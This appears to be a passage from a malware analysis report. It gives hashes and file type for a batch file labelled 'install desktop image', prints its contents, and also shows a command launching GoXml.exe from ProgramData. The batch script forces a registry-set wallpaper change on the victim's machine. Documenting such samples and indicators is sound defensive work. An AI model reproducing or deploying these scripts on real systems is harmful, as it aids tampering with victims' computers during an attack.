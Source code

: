 
Contents: 


start /min C:\ProgramData\Microsoft\Windows\GoXml.exe 1 2 3 4 5 6 7

 

win.bat (#2, install desktop image)


Filename:


ec4cd040fd14bff86f6f6e7ba357e5bcf150c455532800edf97782836e97f6d2


File Size:


765 bytes


SHA256:


ec4cd040fd14bff86f6f6e7ba357e5bcf150c455532800edf97782836e97f6d2


SHA1:


fce0db6e66d227d3b82d4564446ede0c0fd7598c


MD5:


18e01dee14167c1cf8a58b6a648ee049


SSDeep:


12:wbYVJ69/TsdLd6sdLd3mTDwfV+EVTCuwfV+EVTCuwfV+EVTCuwfV+EVTCuwfV
+Et:wq69/kZxZ3mTDY9HY9HY9HY9HY9j (Ver 1.1)


File Type:


DOS batch file text, ASCII text, with CRLF line terminators


Contents:
@echo off
setlocal enabledelayedexpansion
set "Wtime=!time:~0,2!"
if "!Wtime!" leq "20" reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v Wallpaper /t REG_SZ /d "c:\programdata\GoXml.jpg" /f & goto done
if "!Wtime!" geq "20" reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v Wallpaper /t REG_SZ /d "c:\programdata\GoXml.jpg" /f & goto done
:done
timeout /t 5 >nul
start "" /b RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True
start "" /b RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True
start "" /b RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True
start "" /b RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True
start "" /b RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters ,1 ,True
endlocal
